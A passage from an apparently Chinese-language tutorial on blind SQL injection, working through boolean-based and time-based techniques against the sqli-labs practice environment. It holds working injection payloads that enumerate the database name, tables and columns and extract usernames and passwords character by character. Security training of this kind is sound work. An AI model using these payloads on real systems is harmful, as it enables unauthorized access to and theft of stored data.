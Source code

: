   指定位置开始截取

- ascii(),ord():返回最左端的ascii值

- cast(),convert()

- sleep()

- benchmark(count,expr):让expr执行count次

### 布尔盲注

**实验**

盲猜网站当前所在数据库的库名长度，例如执行如下payload：

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and length(database())=7--+
```

盲猜网站当前所在数据库的库名字符串,逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr(database(),1,1)='s'--+
```

盲猜表名，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'--+
```

盲猜users表的全部字段名，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i'--+
```

盲猜表中数据，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select concat_ws(',',username,password) from security.users limit 0,1),1,1)='D'--+
```

### 时间盲注

**实验**

使用sleep()函数判断注入点类型：

```
http://[靶机IP]/sqli-labs/Less-9/?id=1 and sleep(5)--+
```

```
http://[靶机IP]/sqli-labs/Less-9/?id=1' and sleep(5)--+
```

根据延迟猜测数据库名长度：
